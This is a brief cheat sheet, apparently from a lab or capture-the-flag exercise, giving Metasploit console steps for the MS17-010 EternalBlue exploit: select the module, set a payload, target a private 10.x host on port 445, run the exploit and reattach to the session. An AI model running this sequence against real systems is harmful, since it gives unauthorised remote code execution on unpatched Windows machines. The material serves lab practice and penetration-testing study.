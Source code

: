 # select eploit

use use exploit/windows/smb/ms17_010_eternalblue
show payloads
set payload 2

# set options

show options
set rhosts 10.201.63.250
set rport 445

# exploit

exploit

# background

CTRL+Z

# reconnect session

sessions
sessions -h
sessions -i 1
